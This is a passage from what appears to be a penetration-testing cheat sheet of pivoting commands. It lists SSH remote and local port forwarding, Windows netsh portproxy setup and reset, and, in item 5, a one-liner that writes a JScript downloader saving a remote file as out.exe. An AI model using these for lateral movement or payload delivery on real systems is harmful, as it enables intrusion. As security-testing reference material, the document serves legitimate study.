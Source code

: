 ### 1. Forward the remote port to the local machine
```
ssh -R [lport]:[rip]:[rport] [ip] -N
```
**- linux,bash,networking,pivoting**
#### References:

http://unix.stackexchange.com/questions/115897/whats-ssh-port-forwarding-and-whats-the-difference-between-ssh-local-and-remot
https://www.cyberciti.biz/faq/set-up-ssh-tunneling-on-a-linux-unix-bsd-server-to-bypass-nat/
__________
### 2. Forward the local port to the remote machine
```
ssh -L [lport]:[rip]:[rport] [ip] -N
```
**- linux,bash,networking,pivoting**
#### References:

http://unix.stackexchange.com/questions/115897/whats-ssh-port-forwarding-and-whats-the-difference-between-ssh-local-and-remot
https://www.cyberciti.biz/faq/set-up-ssh-tunneling-on-a-linux-unix-bsd-server-to-bypass-nat/
__________
### 3. set native port forward windows
```
netsh interface portproxy add v4tov4 protocol=tcp listenport=[lport] connectport=[rport] listenaddress=[lip] connectaddress=[rip]
```
**- networking,pivoting,Windows**
#### References:

https://yg.ht
https://technet.microsoft.com/en-us/library/bb490939.aspx
https://technet.microsoft.com/en-us/library/cc731068(v=ws.10).aspx
__________
### 4. reset native port forward windows
```
netsh interface portproxy reset
```
**- networking,pivoting,Windows**
#### References:

https://yg.ht
https://technet.microsoft.com/en-us/library/bb490939.aspx
https://technet.microsoft.com/en-us/library/cc731068(v=ws.10).aspx
__________
### 5. Javascript wget windows oneline : cscript /nologo wget.js http://[IP]
```
echo var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");WinHttpReq.Open("GET",WScript.Arguments(0), /*async=*/false);WinHttpReq.Send();BinStream = new ActiveXObject("ADODB.Stream");BinStream.Type=1;BinStream.Open();BinStream.Write(WinHttpReq.ResponseBody);BinStream.SaveToFile("out.exe");>wget.js
```
**- pivoting,files,Windows**
#### References:
